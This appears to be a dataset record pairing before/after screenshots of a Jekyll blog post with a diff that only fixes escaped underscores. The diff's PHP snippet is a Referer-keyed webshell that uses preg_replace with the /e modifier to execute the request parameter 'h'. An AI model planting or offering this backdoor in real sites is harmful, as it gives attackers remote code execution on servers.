

Before and after one commit to Cafexss/Cafexss.github.io, a Jekyll site: the page built from _posts/2016-11-12-shell1-to-php.markdown, in a window 1280 px wide. Shown: the part 229-529 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; comment, search, counter and statistics services are not loaded.

```diff
--- a/_posts/2016-11-12-shell1-to-php.markdown
+++ b/_posts/2016-11-12-shell1-to-php.markdown
@@ -9,9 +9,9 @@ preg_replace(//) 函数加/e可以执行代码 。 这里的 “e”我使用ref
 
 {% highlight php %}
 <?php
-$server= $\_SERVER['HTTP_REFERER'];
+$server= $_SERVER['HTTP_REFERER'];
 $s[1]=$server;
-preg_replace("/t/{$s[1]}",$\_GET["h"],"t");
+preg_replace("/t/{$s[1]}",$_GET["h"],"t");
 
 
 {% endhighlight %}
```
